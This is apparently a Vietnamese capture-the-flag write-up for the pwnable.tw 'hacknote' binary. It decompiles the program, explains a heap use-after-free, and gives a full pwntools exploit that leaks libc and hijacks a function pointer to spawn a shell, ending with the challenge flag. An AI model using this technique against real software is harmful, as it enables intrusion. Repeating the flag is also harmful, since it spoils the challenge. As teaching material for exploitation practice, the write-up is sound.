

**1. Tìm lỗi**

Dùng lệnh `file` kiểm tra:

```
hacknote: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a32de99816727a2ffa1fe5f4a324238b2d59a606, stripped
```

---> Mở bằng IDA ta có hàm `main` như sau:

```
void __cdecl __noreturn main()
{
  int v0; // eax
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, buf, 4u);
      v0 = atoi(buf);
      if ( v0 != 2 )
        break;
      free_0();
    }
    if ( v0 > 2 )
    {
      if ( v0 == 3 )
      {
        delete();
      }
      else
      {
        if ( v0 == 4 )
          exit(0);
LABEL_13:
        puts("Invalid choice");
      }
    }
    else
    {
      if ( v0 != 1 )
        goto LABEL_13;
      create();
    }
  }
}
```

- Khai báo biến v0 kiểu int để lưu giá trị trả về của hàm atoi.
- Khai báo mảng buf kiểu char với kích thước là 4 và được truyền vào hàm read để đọc dữ liệu từ bàn phím.
- Khai báo biến v2 kiểu unsigned int để lưu giá trị của thanh ghi gs.
- Sử dụng vòng lặp vô hạn để hiển thị menu và đọc lựa chọn người dùng từ bàn phím.
- Nếu giá trị trả về v0 khác 2, chương trình sẽ thoát khỏi vòng lặp trong while đầu tiên.
- Nếu giá trị v0 lớn hơn 2, chương trình sẽ thực hiện các lựa chọn khác nhau tùy thuộc vào giá trị của v0.
- Nếu v0 là 3, hàm prinf_note sẽ được gọi.
- Nếu v0 là 4, chương trình sẽ thoát.
- Nếu v0 không phải là 1,2,3 hoặc 4, chương trình sẽ hiển thị thông báo "Invalid choice".
- Nếu v0 là 1, hàm create sẽ được gọi.

Hàm `create`: 
```
unsigned int sub_8048646()
{
  int v0; // ebx
  int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf[8]; // [esp+14h] [ebp-14h] BYREF
  unsigned int v5; // [esp+1Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  if ( dword_804A04C <= 5 )
  {
    for ( i = 0; i <= 4; ++i )
    {
      if ( !*(&ptr + i) )
      {
        *(&ptr + i) = malloc(8u);
        if ( !*(&ptr + i) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        *(_DWORD *)*(&ptr + i) = printf_note;
        printf("Note size :");
        read(0, buf, 8u);
        size = atoi(buf);
        v0 = (int)*(&ptr + i);
        *(_DWORD *)(v0 + 4) = malloc(size);
        if ( !*((_DWORD *)*(&ptr + i) + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)*(&ptr + i) + 1), size);
        puts("Success !");
        ++dword_804A04C;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
  {
    puts("Full");
  }
  return __readgsdword(0x14u) ^ v5;
}
```

- Có thể hiểu ptr là 1 struct gồm printff và content
- Chương trình malloc(8) cho ptr sau đó gán ptr.printff cho địa chỉ hàm in giá trị note
- Sau đó cho nhập size và malloc(size) cho ptr.content.

Hàm `delete`:

```
unsigned int sub_80487D4()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, buf, 4u);
  v1 = atoi(buf);
  if ( v1 < 0 || v1 >= dword_804A04C )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( *(&ptr + v1) )
  {
    free(*((void **)*(&ptr + v1) + 1));
    free(*(&ptr + v1));
    puts("Success");
  }
  return __readgsdword(0x14u) ^ v3;
}
```

- Hàm free ptr.printff và ptr.content

Hàm `show`:

```
unsigned int sub_80488A5()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, buf, 4u);
  v1 = atoi(buf);
  if ( v1 < 0 || v1 >= dword_804A04C )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( *(&ptr + v1) )
    (*(void (__cdecl **)(_DWORD))*(&ptr + v1))(*(&ptr + v1));
  return __readgsdword(0x14u) ^ v3;
}
```

In giá trị của ptr.content.

Hàm `exit` chỉ đơn giản là exit chương trình.

Tạo thử 2 note 16 byte rồi nhập giá trị 'aaaa' và 'bbbb' xem như thế nào.



- chunk 0: 
	+ 8 byte đầu là giá trị head. không tính vào chunk
	+ Ở `0x804b008` chứa giá trị của ptr.printff(dùng để in giá trị ptr) và `0x0804b018` là địa chỉ chunk1
- chunk 1:
	+ 8 byte đầu vẫn là header
	+ Ở `0x804b018` chứa giá trị của ptr.content
- chunk 2 và chunk 3 tương tự chunk 0 và chunk 1

Xóa 2 chunk vừa rồi xem điều gì xảy ra


Cat 4 chunk đã được đẩy vào `fastbins`. Tạo 1 chunk mới 8 byte gồm cccc


Ta thấy giá trị của ptr[3].content được lưu vào chunk 0. Nếu chèn vào `system` thì có thể khai thác 

**2. Ý tưởng**

Sử dụng `ROPgadget` hết hàm `system` thì không thấy nên phải leak địa chỉ libc trước rồi mới chèn được. Tìm kiếm trên bảng `got`


Ta thấy có kha khá địa chỉ nên chọn dại địa chỉ hàm `puts`.

Các bước thực hiện:

- Tạo 2 note mỗi note 16 byte sau đó free chúng
- Tạo 1 note mới 8 byte với giá trị là hàm in ra giá trị note và địa chỉ `puts@got` thì sẽ được địa chỉ của `puts` trên libc để tính toán địa chỉ libc base
- Sau đó lại free chúng và tạo ra note mới với hàm `system` và chuỗi `;sh;`

**3. Khai thác**

Viết một số hàm để tiện sử dụng về sau:

```
def create(size, data):
    r.sendafter(b'choice :', b'1')
    r.sendafter(b'size :', str(size))
    r.sendafter(b'Content :', data)
    r.recvuntil(b'Success !')

def delete(index):
    r.sendafter(b'choice :', b'2')
    r.sendafter(b'Index :', str(index))
    r.recvuntil(b'Success')

def print(index):
    r.sendafter(b'choice :', b'3')
    r.sendafter(b'Index :', str(index))
```

Tiếp theo tạo 2 note rồi free chúng

```
create(16, b'a'*4)
create(16, b'b'*4)
delete(0)
delete(1)
```

Tạo 1 note mới với giá trị là hàm in ra giá trị note và `puts@got` để leak địa chỉ puts từ đó tính được libc base:

```
create(8, p32(print_note) + p32(exe.got['puts']))
print(0)
puts_leak = u32(r.recv(4))
log.info("puts leak: " + hex(puts_leak))
libc.address = puts_leak - libc.sym['puts']
log.info("libc base: " + hex(libc.address))
```

Đã leak được libc thì xóa note vừa tạo đi rồi chèn địa chỉ hàm `system` của libc vào

```
delete(2)
create(8, p32(libc.sym['system']) + b';sh;')
printf(0)
```

Ta có script như sau:

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hacknote_patched", checksec=False)
libc = ELF("./libc_32.so.6", checksec=False)
ld = ELF("./ld-2.23.so", checksec=False)
#r = process(exe.path)
r = remote('chall.pwnable.tw', 10102)

def create(size, data):
    r.sendafter(b'choice :', b'1')
    r.sendafter(b'size :', str(size))
    r.sendafter(b'Content :', data)
    r.recvuntil(b'Success !')

def delete(index):
    r.sendafter(b'choice :', b'2')
    r.sendafter(b'Index :', str(index))
    r.recvuntil(b'Success')

def printf(index):
    r.sendafter(b'choice :', b'3')
    r.sendafter(b'Index :', str(index))

print_note = 0x0804862b
create(16, b'a'*4)
create(16, b'b'*4)
delete(0)
delete(1)
create(8, p32(print_note) + p32(exe.got['puts']))
printf(0)
puts_leak = u32(r.recv(4))
log.info("puts leak: " + hex(puts_leak))
libc.address = puts_leak - libc.sym['puts']
log.info("libc base: " + hex(libc.address))

delete(2)
create(8, p32(libc.sym['system']) + b';sh;')
printf(0)

r.interactive()
```

**4. Lấy flag**


`Flag: FLAG{Us3_aft3r_fl3333_in_h4ck_not3}`